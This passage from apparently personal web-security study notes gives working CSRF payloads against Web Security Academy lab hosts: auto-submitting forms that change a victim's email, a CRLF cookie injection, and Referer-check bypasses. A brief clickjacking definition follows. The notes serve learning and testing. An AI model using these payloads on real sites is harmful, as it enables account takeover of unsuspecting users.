 - Here is an example of payload:

```
<form method="POST" action="https://acd61ff21f7a51b68077fd1800fa0010.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="evil@example.com">
     <input type="hidden" name="csrf" value="fake">
</form>
<img src="/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();" />
```

### Bypass when a Header field has to be present

- Let's say, we have a `referal` header field and if we modify it, the request fail but if we remove completely, the request goes through !

	The payload would be like this:

	```
	<form method="POST" action=" https://acac1f1f1f1ae839805c120100f000a3.web-security-academy.net/email/change-email">
	    <input type="hidden" name="email" value="evil@example.com">
	<meta name="referrer" content="no-referrer">
	</form>

	<script>
	      document.forms[0].submit();
	</script>
	```

- If the header has to be present, then we can use javascript to modify the header of the request.

	```
	<form method="POST" action=" https://acd21ffb1e71273381e62a0400d8008e.web-security-academy.net/email/change-email">
	    <input type="hidden" name="email" value="evil@example.com">
	</form>

	<script>
	      history.pushState("", "", "/?https://acd21ffb1e71273381e62a0400d8008e.web-security-academy.net");
	      document.forms[0].submit();
	</script>
	```

# Clickjacking
Clickjacking is an attack in which a user is tricked to click on something that he didn’t intend to, meaning an attacker could possibly make any actions that a user can do on the webapp just like CSRF. But clickjacking requires user interaction to do a following task whereas CSRF requires no interaction as it can be triggered automatically using javascript.

## Clickjacking detection
https://clickjacker.io/test?url=%5C
https://www.fortinet.com/resources/cyberglossary/clickjacking
